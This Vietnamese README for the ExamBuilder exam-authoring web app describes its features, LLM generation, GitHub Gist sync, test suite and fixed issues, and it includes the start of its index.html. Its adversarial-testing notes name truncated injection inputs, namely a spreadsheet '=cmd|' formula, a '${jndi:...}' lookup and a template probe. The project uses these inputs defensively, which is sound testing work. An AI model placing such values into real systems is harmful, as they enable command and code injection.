| `backend/sync/gistClient.js` | Gọi GitHub Gist API bằng `fetch` toàn cục (Node ≥ 18): đọc / tạo / ghi đè file `exambuilder-library.json` trong 1 gist secret. Xử lý file bị cắt (`truncated` → tải `raw_url`) và dịch lỗi HTTP 401/403/404/429 sang thông báo tiếng Việt. |

## 4. Tính năng & Đầu ra

| Tính năng | Input | Output |
|---|---|---|
| **Dán văn bản** (tab 1) | Văn bản thô theo `Gemini_Prompt_Unified.txt` | Đề thi hiển thị ngay trong khu Preview, chia block Trắc nghiệm/Tự luận |
| **Tải file** (tab 2) | Tệp `.json`, `.csv`, `.txt`, hoặc `.docx` | Giống trên; lỗi định dạng báo rõ dòng/cột sai. Với `.docx`, nội dung Word phải theo đúng cấu trúc trong `Gemini_Prompt_Unified.txt` |
| **Nhập Form** (tab 3) | Từng câu hỏi nhập tay (loại câu, mức độ, nội dung, đáp án...) | Danh sách câu hỏi tạm → gộp thành đề khi bấm "Sinh Đề Kiểm Tra" |
| **Chỉnh sửa trực tiếp** | Click vào nội dung/đáp án/lời giải trên bản xem trước | Cập nhật ngay trong `state`, không cần form riêng. Đánh số câu **liên tục 1..N** cho cả đề (khớp bản Android + xuất Word). Lời giải hiển thị **mỗi câu một dòng** cho dễ đọc |
| **Bung câu** | Bấm vào số "Câu N" ở khu Xem trước | Thẻ câu đó giãn to, nổi bật, lời giải format rõ ràng; bấm lại thu gọn |
| **Chế độ Học sinh** | Bật công tắc "Chế độ Học sinh" | Ẩn hoàn toàn: đáp án đúng, lời giải, nút chỉnh sửa — chỉ còn đề bài + lựa chọn/dòng nháp |
| **Zoom** | Nút A+/A− | Phóng to/thu nhỏ cỡ chữ bản xem trước (60%–200%) |
| **Giao diện** | ⚙️ Cài đặt → "🎨 Giao diện" | **18 chủ đề màu** (16 nền sáng: Xanh lạnh / Biển / Đồng cỏ / Oải hương / Kem trái cây / Ban ngày / Hè / Thu / Đông / Nho / Mận / Cà phê / Thạch anh / Đào / Hoa hồng / Mật ong · 2 nền tối: **Xanh đêm / Rừng đêm**) — bảng màu chắt lọc từ 19 ảnh trong `resources/image/theme/` (2 ảnh trùng nhau), **mọi cặp chữ/nền đạt WCAG AA** (đã kiểm bằng script). Mỗi chủ đề tự là sáng hoặc tối (không có công tắc "chế độ tối" riêng). 4 mức **cỡ chữ**. `data-theme` trên `<html>` + `localStorage` (`eb_theme` / `eb_uiScale`), áp trước khi vẽ (không nháy màu), chuyển mượt |
| **Xuất PDF** | Bấm "Xuất PDF" | Hộp thoại in của trình duyệt, layout đã tối ưu khổ A4 (`@media print`) |
| **Nền PDF** | Bật công tắc "Nền PDF" trong panel bên trái, chọn ảnh + chỉnh độ mờ | Ảnh nền phủ kín trang A4 phía sau nội dung khi "Xuất PDF"; xem mục 4.1 |
| **Xuất Word** | Bấm "Xuất Word" | Tệp `.docx` tải về, gồm đề bài + (nếu ở Chế độ Giáo viên) đáp án/lời giải |
| **Chia sẻ đề** | Bấm "Tạo Link Chia Sẻ" | Một URL: `?data=<base64>` (đề ngắn) hoặc `?code=<8-hex>` (đề dài, lưu server) — mở lên tự vào Chế độ Học sinh |
| **Thu hồi link** | Bấm "Thu hồi link" trong modal chia sẻ (chỉ khả dụng với link dạng `?code=`) | Link bị vô hiệu hoá vĩnh viễn — mở lại sẽ báo lỗi |
| **Prompt mẫu cho AI** | Khu "Prompt mẫu cho AI" dưới layout chính (badge 4 loại câu hỏi + accordion) | Tab chọn AI (Gemini/Gemini Pro/ChatGPT/DeepSeek/Claude/Grok) — mỗi tab 1 prompt + ví dụ riêng; nút "Copy Prompt"/"Copy Ví dụ" sao chép 1-click vào clipboard, kèm thông báo xác nhận |
| **Trộn & Tạo nhiều mã đề** | Panel "Trộn & Tạo nhiều mã đề" (số mã đề `q`, số bắt đầu, tiền tố) sau khi đã "Sinh Đề Kiểm Tra" | `q` mã đề (tab riêng trong Preview) — câu hỏi chia đều `floor(total/q)` theo từng cặp (loại × mức độ) riêng biệt, nên tỉ lệ Nhận biết/Thông hiểu/Vận dụng/Vận dụng cao trong mỗi loại câu hỏi đồng đều giữa các mã (không mã nào toàn câu dễ/toàn câu khó), không trùng lặp giữa các mã cho tới khi hết nguồn; đáp án trắc nghiệm A/B/C/D được xáo lại độc lập cho từng mã. Xuất PDF/Word tự động gồm tất cả mã đề (ngắt trang giữa các mã) |
| **Sinh đề tự động bằng LLM** | Tab "Sinh đề tự động": chọn model (đã cấu hình ở "⚙️ Cài đặt"), chọn tài liệu/Phần tham khảo hoặc nhập chủ đề, nhập số câu theo loại × mức độ | Đề được LLM sinh ra, tự parse và hiển thị ngay trong Preview như các cách nhập khác — xem chi tiết mục 4.2 |
| **Kho đề (lịch sử) + Đồng bộ Gist** | Nút "📚 Lịch sử" trên toolbar. Mọi đề vừa sinh/sửa **tự động** vào kho. Cấu hình 1 GitHub token (quyền `gist`) + 1 Gist ID dùng chung cho PC và Android | Danh sách đề đã lưu (mở lại / xóa cục bộ); **⬆️ Đẩy lên** (máy → Gist) / **⬇️ Kéo về** (Gist → máy) để chuyển đề qua lại giữa web PC và app Android — xem chi tiết mục 4.3 |

### 4.1. Nền PDF (background overlay)

Cho phép chèn một ảnh nền (logo trường, khung viền, watermark "BẢN NHÁP"...) phủ kín trang A4 phía sau nội dung đề thi khi xuất PDF (`window.print()`).

**Thư mục tài nguyên:** `resources/backgrounds/` (tại gốc dự án, ngang hàng `backend/` và `frontend/`). Server serve tĩnh tại `/backgrounds/<tên_file>` và liệt kê qua `GET /api/backgrounds`. Chỉ cần chép ảnh vào thư mục này — không cần khai báo gì thêm, dropdown "Nền PDF" trên giao diện tự đọc danh sách khi tải trang.

**Định dạng hỗ trợ:** `.png`, `.jpg`/`.jpeg`, `.svg`.

**Thông số ảnh khuyến nghị:**

| Thuộc tính | Giá trị khuyến nghị |
|---|---|
| Độ phân giải | 300 DPI |
| Kích thước (px) | 2480 × 3508 (A4 dọc ở 300 DPI) |
| Tỉ lệ khung hình | 210 : 297 (khổ A4) — ảnh lệch tỉ lệ sẽ bị cắt do `background-size: cover` |
| Nền trong suốt | Dùng PNG có kênh alpha nếu ảnh chỉ là logo/watermark/khung viền (không phủ kín màu nền), để không che nội dung phía dưới |
| Độ đậm nội dung ảnh | Ảnh nên nhạt/mảnh — hộp thoại in của trình duyệt còn một lớp "độ mờ" (`opacity`, 5–100%) chỉnh được ngay trên giao diện, nhưng bản thân ảnh gốc càng nhạt thì chữ đề thi càng dễ đọc |

**Bật/tắt & cấu hình:** trong panel nhập liệu (khu vực bên trái, ngay dưới phần tiêu đề đề thi):
1. Bật công tắc **"Nền PDF"**.
2. Chọn ảnh trong dropdown (danh sách lấy từ `resources/backgrounds/`).
3. Kéo thanh **"Độ mờ"** (5–100%) để chỉnh độ đậm nhạt.
4. Bấm **"Xuất PDF"** — ảnh nền sẽ xuất hiện phủ kín từng trang A4 trong hộp thoại in.

Tắt công tắc "Nền PDF" để in không có nền (mặc định). Lựa chọn nền/độ mờ chỉ tồn tại trong phiên làm việc hiện tại (không lưu vào CSDL cùng đề thi).

> **Lưu ý trình duyệt:** một số trình duyệt (Chrome, Edge...) mặc định **không in màu nền/ảnh nền** trừ khi tuỳ chọn "Đồ họa nền" (Background graphics) trong hộp thoại in được bật — ứng dụng đã set `print-color-adjust: exact` ở CSS để giảm thiểu việc này, nhưng người dùng nên kiểm tra tuỳ chọn đó nếu thấy nền không xuất hiện trong PDF.

### 4.2. Sinh đề tự động bằng LLM (module cộng thêm)

Cho phép giáo viên bấm 1 nút để LLM tự sinh câu hỏi thay vì phải tự tay copy prompt sang Gemini/ChatGPT rồi dán kết quả về. Module này cộng thêm vào kiến trúc sẵn có, không sửa luồng dán tay/tải file/nhập form hiện tại.

**Luồng hoạt động:**
1. Trong modal **"⚙️ Cài đặt"**: nhập API key cho OpenAI/Anthropic/Gemini (lưu server-side, không bao giờ trả full key về trình duyệt), đăng ký model cloud (tên model API + tên hiển thị), hoặc tải lên model chạy local dạng `.gguf` (chạy qua [`node-llama-cpp`](https://github.com/withcatai/node-llama-cpp) ngay trong tiến trình Node — không cần cài thêm phần mềm ngoài).
2. (Tùy chọn) Trong tab **"Sinh đề tự động"**, mở khu **"📚 Quản lý thư viện tài liệu"**: tạo 1 tài liệu tham khảo, tự chia thành các **Phần** (giáo viên tự đặt ranh giới nội dung, ví dụ theo chương/bài).
3. Chọn **Model**, chọn tài liệu + các **Phần** muốn dùng làm ngữ cảnh (hoặc bỏ trống và chỉ nhập **Chủ đề**), nhập số lượng câu hỏi theo từng loại × mức độ trong bảng, bấm **"🚀 Sinh đề tự động"**.
4. Backend ghép prompt (tái sử dụng nguyên văn phần hướng dẫn định dạng trong [`Gemini_Prompt_Unified.txt`](../Gemini_Prompt_Unified.txt) + nội dung các Phần đã chọn + yêu cầu số lượng) → gọi provider đã chọn → chạy kết quả qua `TextPromptParser` (parser y hệt luồng dán tay) → nếu sai định dạng, tự động gửi lại lỗi cho LLM xin sửa (tối đa 2 lần) → trả đề về, hiển thị ngay trong Preview như các cách nhập khác.

**Giới hạn cần biết khi dùng model local (`.gguf`):**

| Giới hạn | Chi tiết |
|---|---|
| Định dạng file | Chỉ nhận `.gguf` (định dạng llama.cpp) — model dạng khác (vd `safetensors` từ HuggingFace) cần convert trước bằng công cụ ngoài |
| RAM | Model 7B quantize Q4 chiếm khoảng 4-5GB RAM khi nạp — máy chạy server cần đủ RAM trống |
| Tốc độ | Mặc định chạy CPU-only, chậm hơn đáng kể so với gọi API cloud (có thể vài chục giây tới vài phút) |
| Lần dùng đầu tiên | `node-llama-cpp` tải binary native tương ứng hệ điều hành về khi gọi model local lần đầu — cần có kết nối mạng ở lần đó |

API key và model đã đăng ký lưu trong 2 bảng `LLM_SETTINGS`/`LLM_MODEL` (SQLite, xem mục 3.2); file `.gguf` tải lên lưu tại `resources/models/` (git-ignored, có thể đổi qua biến môi trường `LLM_MODELS_DIR`).

### 4.3. Kho đề (lịch sử) & Đồng bộ PC ↔ Android qua GitHub Gist

Web PC và app Android (`Exam builder for adr/`) mỗi bên giữ một **kho đề** cục bộ tự tích lũy mọi đề đã soạn, và trao đổi đề với nhau qua **một GitHub Gist secret** đóng vai trò kho chung trên mây.

**Kho đề (tự động lưu):** ngay khi bấm "Sinh Đề Kiểm Tra" đề được ghi vào bảng `SAVED_EXAM` (bấm lại trong 30 giây coi là tinh chỉnh cùng đề — cập nhật tại chỗ). Sửa trực tiếp trên bản xem trước cũng tự lưu (debounce 1.5 giây) hoặc trước khi đóng tab. Không có nút "lưu" thủ công. Nút **"📚 Lịch sử"** trên toolbar mở modal liệt kê các đề đang lưu (tiêu đề · môn · thời điểm sửa) — **Mở** lại để soạn tiếp, hoặc **Xóa**.

**Xóa là cục bộ + có thể phục hồi:** bấm "Xóa" chỉ đánh dấu đề là *tombstone* trên máy này (ẩn khỏi danh sách, giữ lại bản ghi). Nó chỉ biến mất trên máy khác sau khi bạn **Đẩy lên**. Nếu xóa nhầm và **chưa** Đẩy lên, bấm **Kéo về** để lấy lại.

**Cấu hình (một lần, mỗi thiết bị):** trong modal "📚 Lịch sử", mở khu gập **"☁️ Đồng bộ sang thiết bị khác"**
(mặc định gập lại để ưu tiên danh sách đề; tự mở sẵn nếu đã có Token). Token và Gist ID được **khóa**
sau khi lưu (chỉ hiện nhãn trạng thái ✅/⚠️); muốn đổi phải bấm nút "Thay đổi" — panel tương ứng mới hiện ra.
1. Bấm **🔑 Thay đổi Token** → dán **GitHub Personal Access Token** (chỉ cần quyền **`gist`**) → **Lưu Token**.
2. Bấm **🆔 Thay đổi Gist ID**:
   - *Thiết bị đầu tiên:* bấm **🆕 Tạo Gist ID mới** — app tạo một gist secret mới, đẩy kho đề lên, và điền Gist ID.
   - *Thiết bị sau:* dán **cùng Gist ID** đó vào ô rồi **Lưu Gist ID**, sau đó **⬇️ Kéo về**.

Sau đó chỉ còn 2 nút chính: **⬆️ Đẩy lên** / **⬇️ Kéo về**.

**Hai thao tác, một chiều mỗi lần:**

| Thao tác | Hướng | Quy tắc hợp nhất | Dùng khi |
|---|---|---|---|
| **⬆️ Đẩy lên (Push)** | máy → Gist | `merge(local, cloud)` — **bản trên máy thắng** khi trùng đề; đề chỉ có trên cloud vẫn được giữ | Chốt các thay đổi (kể cả xóa) của máy này lên kho chung |
| **⬇️ Kéo về (Pull)** | Gist → máy | `merge(cloud, local)` — **bản trên cloud thắng** khi trùng đề; đề chỉ có trên máy vẫn được giữ | Lấy đề từ thiết bị khác về, hoặc khôi phục đề vừa lỡ xóa cục bộ |

Hợp nhất là **union theo `exam_id`**: không đề nào bị mất trừ khi tombstone của nó "thắng" theo chiều đang chạy. Sau `Push` + `Pull` ở cả hai máy thì hai kho khớp nhau. Tombstone quá 90 ngày được dọn khi Push.

**Chủ đề màu cũng được đồng bộ** cùng file này, nhưng theo quy tắc khác: **"lần đổi gần nhất thắng"** (so `theme.updated_at`, không theo chiều Push/Pull). Đổi theme ở máy nào sau cùng thì lần Push/Pull kế tiếp sẽ kéo theme đó về các máy khác. **Cỡ chữ KHÔNG đồng bộ** — vẫn riêng từng thiết bị (điện thoại có thể để chữ to hơn màn hình PC). Theme lạ (client cũ gặp theme của bản mới hơn) tự hiển thị màu mặc định.

**File trên Gist** — `exambuilder-library.json`:

```json
{
  "schema": "exambuilder/library@1",
  "updated_at": "2026-09-01T10:00:00.000Z",
  "theme": { "id": "midnight", "updated_at": "2026-09-02T10:00:00.000Z" },
  "exams": [
    { "exam_id": "…", "title": "…", "subject": "…", "duration_minutes": 45,
      "school_header": "…", "blocks": [ … ],
      "created_at": "…", "updated_at": "…", "deleted_at": null }
  ]
}
```

> ⚠️ **Bảo mật — đọc kỹ.** Token GitHub lưu **plaintext** trong bảng `SYNC_SETTINGS` (web) / DataStore (Android), cùng mức bảo vệ với API key LLM. Gist ở dạng **secret nhưng KHÔNG mã hóa**: bất kỳ ai có URL Gist (và cả GitHub) đều đọc được **toàn bộ đề kèm đáp án đúng**. Hãy dùng token **chỉ có quyền `gist`**, coi URL Gist + token là thông tin nhạy cảm (không commit, không chia sẻ), và revoke token trên GitHub nếu nghi bị lộ.

### Ví dụ Output — 1 câu hỏi sau khi parse

```json
{
  "question_type": "MCQ",
  "content": "2 + 2 bằng bao nhiêu?",
  "difficulty_level": "NB",
  "correct_answer": "B",
  "explanation": "Vì 2 + 2 = 4",
  "options": [
    { "option_key": "A", "option_text": "3", "is_correct": false },
    { "option_key": "B", "option_text": "4", "is_correct": true }
  ],
  "draft_lines_count": 0
}
```

## 5. Cài đặt & Sử dụng

### Yêu cầu

- Node.js ≥ 18 (đã kiểm thử trên Node 24)
- npm

### Cài đặt

```bash
git clone <repository-url>
cd exam-builder
npm install
```

Không cần cấu hình biến môi trường nào để chạy ở chế độ thông thường. SQLite sẽ tự tạo tệp `backend/exam.db` ở lần chạy đầu tiên.

| Biến môi trường | Bắt buộc | Mặc định | Mô tả |
|---|---|---|---|
| `PORT` | Không | `3000` | Cổng HTTP server lắng nghe |
| `EXAM_DB_PATH` | Không | `backend/exam.db` | Đường dẫn tệp CSDL SQLite — dùng `:memory:` khi chạy test |
| `LLM_MODELS_DIR` | Không | `resources/models` | Thư mục lưu file model `.gguf` tải lên qua "⚙️ Cài đặt" — dùng thư mục tạm khi chạy test |

### Chạy ứng dụng

```bash
npm start
```

Mở trình duyệt tại **http://localhost:3000**.

**Quy trình sử dụng nhanh:**

1. Mở [`Gemini_Prompt_Unified.txt`](../Gemini_Prompt_Unified.txt), copy prompt, thay chủ đề, dán vào Gemini Pro.
2. Copy kết quả AI trả về → dán vào tab **"Dán văn bản"** → bấm **"Sinh Đề Kiểm Tra"**.
3. Kiểm tra/sửa đề ở khu xem trước; bật **"Chế độ Học sinh"** để xem bản không đáp án.
4. Bấm **"Xuất PDF"**/**"Xuất Word"** để in, hoặc **"Tạo Link Chia Sẻ"** để gửi đề qua link.

### Chạy kiểm thử

```bash
npm test              # chạy toàn bộ ~339 test case
npm run test:coverage # chạy kèm báo cáo coverage
```

## 6. Kiểm thử (Testing)

Framework: **Jest** (unit + integration) + **Supertest** (test API qua HTTP thật, không mock Express). Chi tiết đầy đủ về từng test case nằm trực tiếp trong code tại thư mục [`tests/`](../tests/).

| File test | Đối tượng | Số ca | Coverage (statements) |
|---|---|---|---|
| `tests/parser/TextPromptParser.test.js` | Parser văn bản thô | 30 | 100% |
| `tests/parser/FileUploadParser.test.js` | Parser JSON/CSV/TXT/DOCX | 32 | 95.4% |
| `tests/parser/IQuestionParser.test.js` | Interface trừu tượng | 2 | 100% |
| `tests/parser/adversarial.test.js` | Fuzz parser: prototype pollution, injection, unicode, hiệu năng | 11 | — |
| `tests/database.test.js` | Schema SQLite, ràng buộc toàn vẹn (gồm `SAVED_EXAM` / `SYNC_SETTINGS`) | 9 | 100% |
| `tests/errorHandler.test.js` | Middleware lỗi toàn cục | 3 | 100% |
| `tests/routes/examRoutes.test.js` | REST API (5 endpoint) | 35 | 96.1% |
| `tests/routes/examRoutes.adversarial.test.js` | Fuzz API: race condition, prototype pollution, mass assignment, boundary | 25 | — |
| `tests/llm/promptBuilder.test.js` | Ghép prompt từ template + ngữ cảnh + yêu cầu số lượng | 8 | 100% |
| `tests/llm/promptTemplate.test.js` | Meta-prompt: `promptTemplate.js` đồng bộ với `Gemini_Prompt_Unified.txt`, giữ đủ mốc định dạng, LaTeX không hỏng, và ví dụ PHẦN 3 parse được đủ 4 loại câu | 5 | — |
| `tests/llm/promptVariants.test.js` | `promptVariants.js` (6 AI): đủ 6 bien the, moi bien the chua nguyen van quy tac dinh dang dung chung + doan luu y rieng khac nhau, LaTeX khong hong, va vi du rieng cua tung AI deu parse duoc du 4 loai cau | 11 | — |
| `tests/llm/ProviderFactory.test.js` | Chọn đúng provider theo model đã đăng ký | 9 | 100% |
| `tests/routes/settingsRoutes.test.js` | REST API cấu hình API key LLM (đọc/lưu/kiểm tra kết nối) | 11 | — |
| `tests/routes/modelRoutes.test.js` | REST API quản lý model (cloud + upload `.gguf` local) | 11 | — |
| `tests/routes/resourceRoutes.test.js` | REST API thư viện tài liệu tham khảo | 8 | — |
| `tests/routes/generateRoutes.test.js` | REST API sinh đề tự động, gồm vòng lặp tự sửa định dạng | 9 | — |
| `tests/sync/library.test.js` | Module thuần đồng bộ: `mergeLibraries` (primary thắng, union, tombstone 2 chiều), `rowsToLibrary`/`libraryToRows` round-trip, `purgeOldTombstones`, `pickNewerTheme`/`sanitizeTheme` (theme "lần đổi gần nhất thắng") | 25 | 100% |
| `tests/sync/gistClient.test.js` | Wiring HTTP thật với GitHub Gist API (mock server cục bộ): header Bearer, `public:false`, round-trip content, map lỗi 401/404 | 6 | 100% |
| `tests/sync/syncFlow.e2e.test.js` | E2E 2 "thiết bị" (2 CSDL riêng) đồng bộ qua 1 Gist bằng `gistClient` thật: PC Push tạo Gist → Android Pull → Android xóa + Push → PC Pull thấy đề biến mất; + đồng bộ chủ đề màu | 2 | — |
| `tests/routes/archiveRoutes.test.js` | REST API kho đề: upsert/cập nhật tại chỗ, xóa mềm ẩn khỏi list, không hồi sinh đề đã xóa, validate, lỗi CSDL | 11 | — |
| `tests/routes/syncRoutes.test.js` | REST API đồng bộ: che token, Push tạo Gist khi chưa có id, `merge(local,cloud)` / `merge(cloud,local)`, khôi phục đề đã xóa qua Pull, đồng bộ chủ đề màu qua body, lỗi GitHub → 502 | 14 | — |
| **Tổng** | | **~355** | **~97%** (module LLM: ~72% statements — phần chưa phủ chủ yếu là các nhánh lỗi `LocalGgufProvider`/`node-llama-cpp` cố ý không test bằng model thật) |

Mỗi bộ test đều bao phủ 4 nhóm kịch bản: **Happy Path**, **Edge Cases**, **Negative Cases** (input sai định dạng/injection), **Exception Handling** (lỗi CSDL giả lập qua `jest.spyOn`, timeout, transaction rollback). Riêng 2 file `*.adversarial.test.js` đi xa hơn: **race condition** (nhiều request ghi CSDL đồng thời), **prototype pollution** (`__proto__` qua JSON/CSV), **mass assignment**, **injection-style content** (công thức Excel, template injection), **unicode cực biên** (emoji, zero-width space, null byte), **sai Content-Type/HTTP verb**, và **payload/hiệu năng biên** (200 câu hỏi, chuỗi 100.000 ký tự). API test dùng **SQLite in-memory** (`EXAM_DB_PATH=:memory:`), tái tạo schema sạch trước mỗi test (`closeDb()` trong `afterEach`) để đảm bảo cô lập hoàn toàn, không phụ thuộc thứ tự chạy.

Các test đánh dấu **`[Da sua]`** hoặc **`[Critical - da sua]`** ghi lại hành vi *trước* và *sau* khi một gap được phát hiện và sửa (regression test), giữ nguyên comment giải thích rủi ro ban đầu để tránh tái phát.

## 7. Giới hạn đã biết / Known Limitations

Trong quá trình viết test đã phát hiện tổng cộng **10 vấn đề** (8 gap ban đầu + 2 phát hiện từ đợt kiểm thử chuyên sâu/adversarial); **tất cả đều đã được xử lý**:

| # | Vấn đề | Mức độ | Trạng thái |
|---|---|---|---|
| 0a | **[Critical]** 2 request `POST /api/exams/save` chạy đồng thời làm **sập toàn bộ server** (unhandled promise rejection) | 🔴 Critical | ✅ Đã sửa — `backend/mutex.js` xếp hàng các giao dịch ghi trên cùng 1 kết nối SQLite; `ROLLBACK` được bọc `try/catch` riêng để không bao giờ trở thành unhandled rejection dù nguyên nhân là gì. Xác nhận bằng test tải 20 request đồng thời (`tests/routes/examRoutes.adversarial.test.js`) |
| 0b | **[Bug hiển thị]** Chuỗi dài không có khoảng trắng (link, chuỗi ký tự liền mạch) làm khung câu hỏi **tràn ngang toàn trang** thay vì xuống dòng | 🟠 Medium | ✅ Đã sửa — thêm `overflow-wrap: break-word` + `min-width: 0` cho các phần tử flex chứa văn bản (`.question-content`, `.option-text`, `.explanation-box`) trong `style.css`. Phát hiện qua kiểm thử UI bằng Playwright với input 2000 ký tự liền mạch |
| 1 | `TextPromptParser`: `Muc_Do` phân biệt hoa/thường tuyệt đối | Low | ✅ Đã sửa — tra `DIFFICULTY_MAP` không phân biệt hoa/thường (cả `TextPromptParser` và `FileUploadParser`) |
| 2 | `TextPromptParser.parse()` không kiểm tra kiểu dữ liệu đầu vào, gây `TypeError` thô | Low | ✅ Đã sửa — kiểm tra `typeof rawContent !== 'string'` |
| 3 | `POST /api/exams/save` không re-validate cấu trúc nghiệp vụ ở tầng server (kể cả trùng `option_key`) | Medium | ✅ Đã sửa — `validateExamPayload()` trong `examRoutes.js`, gồm cả kiểm tra `option_key` trùng lặp |
| 4 | `expires_in_days: 0` bị hiểu nhầm là "không giới hạn" (truthy-check) | Low | ✅ Đã sửa — so sánh tường minh với `undefined`/`null` |
| 5 | Không có API thu hồi (deactivate) link chia sẻ | Low | ✅ Đã sửa — thêm `DELETE /api/exams/share/:code` + nút "Thu hồi link" |
| 6 | JSON body lỗi cú pháp trả về response không đồng nhất định dạng | Low | ✅ Đã sửa — thêm `backend/errorHandler.js` (middleware toàn cục) |
| 7 | Xuất Word phụ thuộc CDN (`unpkg.com/docx`) | Low | ✅ Đã sửa — vendor `docx` cục bộ qua `npm install` + serve tĩnh tại `/vendor/docx` |
| 8 | Chỉ hỗ trợ tải tệp `.json`/`.csv`/`.txt` — chưa hỗ trợ Word/Excel như mô tả ban đầu | Low | ✅ Đã sửa một phần — thêm hỗ trợ `.docx` qua `mammoth` (không phát sinh lỗ hổng mới). **Excel (`.xlsx`) cố ý bỏ qua**: hai thư viện phổ biến nhất trên npm (`xlsx`/SheetJS: lỗ hổng Critical/High chưa có bản vá; `exceljs`: lỗ hổng Moderate qua dependency `uuid`) đều không đạt chuẩn an toàn, và dự án hiện không có nhu cầu đọc Excel |
| 9 | `npm audit` báo 7 lỗ hổng (1 Critical, 4 High) trong chuỗi build native của `sqlite3` (`node-gyp`/`tar`/`cacache`/`make-fetch-happen`) | 🟠 đang mở | ⚠️ Có sẵn từ trước module LLM, không phát sinh bởi `multer`/`node-llama-cpp`. Chỉ ảnh hưởng lúc **build** package (không chạy ở runtime phục vụ request), nhưng nên nâng cấp `sqlite3` lên `6.0.1` (breaking change, cần kiểm thử lại toàn bộ tầng CSDL) ở một đợt riêng thay vì gộp vào tính năng này |

**Đã xác nhận AN TOÀN qua kiểm thử chuyên sâu (không phải gap, nhưng đáng ghi nhận):**
- Không có prototype pollution qua `__proto__` trong body JSON hoặc cột CSV (test `TC-ADV-P06`, `TC-ADV-P07`, `TC-ADV-03`, `TC-ADV-04`).
- Không có SQL injection (toàn bộ query dùng tham số hoá `?`) — test `TC-API-11`.
- Nội dung dạng công thức Excel (`=cmd|...`, `@SUM(...)`), template injection (`${jndi:...}`, `{{7*7}}`) được lưu/hiển thị nguyên văn dưới dạng chuỗi, không bao giờ bị diễn giải hay thực thi (test `TC-ADV-05`, `TC-ADV-P04`, `TC-ADV-P10`) — bao gồm cả xác nhận trực quan qua trình duyệt thật rằng `<script>` không bị thực thi khi hiển thị (dùng `textContent`, không phải `innerHTML`).
- `share_code`/`exam_id` cực dài hoặc chứa ký tự đại diện SQL LIKE (`%`, `_`) không gây treo hay khớp sai (test `TC-ADV-12`, `TC-ADV-13`).
- Server chịu được tải 200 câu hỏi/1 đề và chuỗi văn bản 100.000 ký tự mà không lỗi hay chậm bất thường (test `TC-ADV-18`, `TC-ADV-P05`, `TC-ADV-P11`).

````

### FILE: frontend/index.html

```html
<!DOCTYPE html>
<html lang="vi">
<head>
<meta charset="UTF-8" />
<meta name="viewport" content="width=device-width, initial-scale=1.0" />
<!-- Ứng dụng tự quản lý màu qua theme -> chặn trình duyệt tự "ép tối" (Auto Dark Mode).
     Theme tối (midnight/pine) tự set color-scheme: dark ở CSS, không phụ thuộc dòng này. -->
<meta name="color-scheme" content="light" />
<title>ExamBuilder - Tạo Đề Kiểm Tra</title>
<link rel="stylesheet" href="style.css" />
<link rel="stylesheet" href="templateSystem.css" />
<link rel="stylesheet" href="/vendor/katex/katex.min.css" />
<script>
  // Áp dụng theme + cỡ chữ đã lưu TRƯỚC khi vẽ (tránh nháy màu).
  // THÊM THEME MỚI: chỉ cần (1) khối :root[data-theme="ten"] trong style.css và
  // (2) 1 nút .theme-card trong #themeGrid bên dưới — không phải sửa file này.
  (function () {
    try {
      // Đổi tên id cũ -> id mới (giữ lựa chọn của người dùng khi bạn đổi tên theme).
      var MIGRATE = { blue: 'cold', teal: 'ocean', forest: 'meadow', amber: 'summer', violet: 'blossom' };
      var DARK_DEFAULT = 'midnight';
      var r = document.documentElement;
      var t = localStorage.getItem('eb_theme');
      if (MIGRATE[t]) { t = MIGRATE[t]; localStorage.setItem('eb_theme', t); }
      if (localStorage.getItem('eb_mode') === 'dark') {   // bỏ công tắc "chế độ tối" cũ
        if (t !== 'midnight' && t !== 'pine') t = DARK_DEFAULT;
        localStorage.setItem('eb_theme', t);
        localStorage.removeItem('eb_mode');
      }
      // id lạ (gõ sai) chỉ hiển thị màu mặc định — vô hại; danh sách hợp lệ do
      // script.js kiểm lại theo các nút trong #themeGrid.
      if (t && t !== 'cold' && /^[a-z][a-z0-9-]*$/.test(t)) r.dataset.theme = t;
      var sc = parseFloat(localStorage.getItem('eb_uiScale'));
      if (sc && sc !== 1) r.style.setProperty('--ui-scale', String(sc));
    } catch (e) {}
  })();
</script>
</head>
<body>

<header class="app-header no-print">
  <h1>ExamBuilder</h1>
  <div class="toolbar" id="toolbar">
    <div class="toolbar-group">
      <label class="switch">
        <input type="checkbox" id="studentModeToggle" />
        <span class="switch-track"><span class="switch-thumb"></span></span>
        <span class="switch-text">Chế độ Học sinh</span>
      </label>
      <div class="zoom-controls">
        <button id="zoomOutBtn" type="button" title="Thu nhỏ">A−</button>
        <span id="zoomLevelLabel">100%</span>
        <button id="zoomInBtn" type="button" title="Phóng to">A+</button>
      </div>
    </div>

    <div class="toolbar-group">
      <button id="shareBtn" type="button" class="tool-btn" disabled>Tạo Link Chia Sẻ</button>
      <button id="exportPdfBtn" type="button" class="tool-btn" disabled>Xuất PDF</button>
      <button id="exportWordBtn" type="button" class="tool-btn" disabled>Xuất Word</button>
      <button id="libraryBtn" type="button" class="tool-btn">📚 Lịch sử</button>
      <button id="templateSystemBtn" type="button" class="tool-btn">Mẫu đề</button>
      <button id="settingsBtn" type="button" class="tool-btn">⚙️ Cài đặt</button>
    </div>
  </div>
</header>

<main class="app-main" id="appMain">
  <section class="input-panel no-print" id="inputPanel">
    <div class="exam-meta">
      <input type="text" id="examTitleInput" placeholder="Tên đề thi (VD: Đề kiểm tra HK1 - Toán 10)" />
      <div class="meta-row">
        <input type="text" id="examSubjectInput" placeholder="Môn học" />
        <input type="number" id="examDurationInput" placeholder="Thời gian (phút)" min="1" />
      </div>
      <input type="text" id="examSchoolInput" placeholder="Tên trường / Tiêu đề đầu trang" />
    </div>

    <div class="bg-panel">
      <label class="switch">
        <input type="checkbox" id="bgEnableToggle" />
        <span class="switch-track"><span class="switch-thumb"></span></span>
        <span class="switch-text">Nền PDF</span>
      </label>
      <select id="bgSelect" disabled>
        <option value="">— Chọn ảnh nền —</option>
      </select>
      <label class="bg-opacity-label">
        Độ mờ
        <input type="range" id="bgOpacityRange" min="5" max="100" value="30" disabled />
        <span id="bgOpacityValue">30%</span>
      </label>
    </div>

    <div class="tabs">
      <button class="tab-btn active" data-tab="text" type="button">Dán văn bản</button>
      <button class="tab-btn" data-tab="upload" type="button">Tải file</button>
      <button class="tab-btn" data-tab="form" type="button">Nhập Form</button>
      <button class="tab-btn" data-tab="auto" type="button">Sinh đề tự động</button>
    </div>

    <div class="tab-content active" id="tab-text">
      <textarea id="rawTextInput" rows="12" placeholder="Dán nội dung câu hỏi theo định dạng chuẩn (xem khu 'Prompt mẫu cho AI' bên dưới để lấy prompt sinh câu hỏi từ Gemini / ChatGPT / DeepSeek / Claude / Grok)..."></textarea>
    </div>

